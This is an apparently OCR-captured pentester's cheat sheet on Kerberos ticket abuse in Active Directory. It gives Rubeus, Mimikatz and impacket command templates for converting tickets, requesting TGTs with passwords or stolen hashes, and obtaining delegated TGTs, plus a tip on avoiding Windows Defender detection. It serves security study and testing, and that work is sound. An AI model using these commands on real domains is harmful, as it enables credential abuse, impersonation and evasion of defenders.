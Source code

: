 TGS_REP ⇒ provides TGS – ticket to get access to specific service
  
## Ticket Conversion
Converting tickets between impacket and mimikatz/Rubeus format
  
kirbi2ccache [kirbi file] [ccache file]
ccache2kirbi [ccache file] [kirbi file]
  
impacket-ticketConverter [ccache/kirbi file] [kirbi/ccache file]
- kirbi ⇒ mimikatz
    
- ccache ⇒ impacket
    
  
## Request New Initial TGT
Note: requires user’s password or hash
  
Rubeus
rubeus asktgt /domain: /user: /password:
- /enctype:[rc4|aes128|aes256|3des]
    
- use aes256 (default) for enctype
    
- if you don’t have password but have hash, replace /password: with /rc4: /aes128: /aes256: or /des:
    
  
Mimikatz
tgt::ask /domain: /user: /password:
  
Impacket (Remote)
impacket-getTGT [domain]/[user]:[password]
- -dc-ip [DC]
    
- -hashes [hash]
    
export KRB5CCNAME=[ticket].ccache
  
## Request Delegated TGT
can’t change passwords with delegated TGTs but can request TGSes
  
Notes:
- domain controllers by default can provide delegated TGTs
    
- normal for some processes (like explorer) but weird for others (like notepad). For processes that it’s weird, if you don’t want to get flagged by Windows Defender be sure to use /host
    
- useful for using impacket scripts without knowing password → convert ticket to ccache
    
  
Rubeus
rubeus tgtdeleg
- /target:[SPN]
    
  
Mimikatz
tgt::deleg ⇒ contacts domain controller by default
- /host:[FQDN] ⇒ have another host delegate for you (stealthy)
    